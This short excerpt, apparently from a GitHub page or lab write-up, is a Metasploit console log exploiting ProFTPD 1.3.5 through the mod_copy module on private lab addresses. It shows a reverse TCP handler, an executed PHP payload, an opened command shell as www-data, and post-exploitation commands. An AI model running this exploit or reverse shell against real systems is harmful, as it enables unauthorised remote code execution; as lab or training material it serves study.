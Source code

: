 ```

   Id  Name
   --  ----
   0   ProFTPD 1.3.5


msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 172.28.128.5:4444 
[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[*] 172.28.128.3:80 - Executing PHP payload /LVocqO9.php
[*] Command shell session 1 opened (172.28.128.5:4444 -> 172.28.128.3:48575 ) at 2022-05-09 06:15:50 -0400

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
echo 'pwned' | tee pwned.txt            
pwned
cat pwned.txt   
pwned
```